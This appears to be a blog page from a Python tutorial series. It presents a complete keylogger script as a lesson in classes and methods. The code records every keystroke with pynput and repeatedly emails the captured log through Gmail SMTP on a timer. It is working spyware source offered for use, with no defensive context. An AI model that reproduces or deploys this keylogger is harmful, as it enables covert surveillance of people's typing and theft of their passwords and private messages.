 ```yaml
---
permalink: /python_101/keylogger/keylogger.html
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
---
```


## This script includes all methods and classes used by the keylogger.

-  Each function within a class is termed a method.

-  When instantiating an object instance as a class, automatically the methods are invoked and hence the first attribute of each method is named "self".

-  Call objects defined within a class using : "self.obj".

-  A Constructor is automatically executed when a class is created.

-  An Attribute is a variable that can be used within the whole class and by its respective methods. (This is a secure alternative to using global definitions.)



### Code: 

```python
#!/usr/bin/env python

import pynput.keyboard
import threading
import smtplib
import argparse


def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-e", "--email", dest="email", help="Email-ID to recieve report")
    parser.add_argument("-t", "--time-interval", dest="interval", help="Time Interval to recieve report")
    parser.add_argument("-p", "--password", dest="password", help="Password for provided Email-ID")
    options = parser.parse_args()
    if not options.email:
        # code to handle error
        parser.error("\n[-] Please specify a valid Email-ID,  use --help for info.")
    if not options.interval:
        # code to handle error
        parser.error("\n[-] Please specify a valid Time Interval,  use --help for info.")
    if not options.password:
        # code to handle error
        parser.error("\n[-] Please specify a valid Password,  use --help for info.")
    return options

class Keylogger:
    # Constructor definition
    def __init__(self, time_interval, email, password):
        # Attribute definition
        self.log = "[!] Keylogger Started"
        self.interval = time_interval
        self.email = email
        self.password = password

    def append_to_log(self, string):
        self.log = self.log + string

    def process_key_press(self, key):
        try:
            current_key = str(key.char)
        except AttributeError:
            # Replace key.space as space
            if key == key.space:
                current_key = " "
            else:
                # Space special chars out
                current_key = " " + str(key) + " "
        self.append_to_log(current_key)


    # Recursive function
    def report(self):
        self.send_mail(self.email, self.password, "\n\n" + self.log)
        # Reset
        self.log = ""
        # Running timer on an alternate thread
        # Wait for 5 secs and report
        timer = threading.Timer(self.interval, self.report)
        timer.start()

    # Create SMTP server instance to send email
    def send_mail(self, email, password, message):
        server = smtplib.SMTP("smtp.gmail.com", 587)
        server.starttls()
        server.login(email, password)
        server.sendmail(email, email, message)
        server.quit()

    # Start keylogger
    def start(self):
        # Create instance
        keyboard_listener = pynput.keyboard.Listener(on_press=self.process_key_press)
        # Start listener
        with keyboard_listener:
            self.report()
            keyboard_listener.join()

banner = """
    
|      ___           __   __   __   ___  __  
|__/ |__  \ / |    /  \ / _` / _` |__  |__) 
|  \ |___  |  |___ \__/ \__> \__> |___ |  \ 
                                            
[!] Keylogger Started >.<
  """
```